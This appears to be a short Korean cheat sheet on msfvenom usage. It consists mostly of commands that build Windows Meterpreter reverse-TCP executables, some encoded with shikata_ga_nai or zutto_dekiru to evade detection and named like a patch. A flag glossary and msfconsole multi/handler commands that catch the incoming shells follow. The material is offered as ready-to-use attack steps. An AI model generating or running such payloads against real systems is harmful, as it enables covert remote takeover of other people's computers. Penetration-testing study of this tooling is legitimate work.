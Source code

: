 ## msfvenom 사용법
```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe lhost=192.168.123.112 lport=4444 -o /root/test.exe

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=(공격자ip) lport=(default=4444) -f exe -e x64/zutto_dekiru -i 3 -o /root/patch.exe

```
> -p : 페이로드 옵션을 설정    
> -o : 파일 경로와 파일명 지정    
> -e : 인코딩     
> -f : 파일 형식
> -a : 아키텍쳐         
> --platform : 플랫폼 설정 
> -i : 인코딩 횟수     

```
msfconsle
use multi/handler
set payload windows/meterpreter/reverse_tcp or windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.123.112
set LPORT 4444

exploit -j
```
- - -
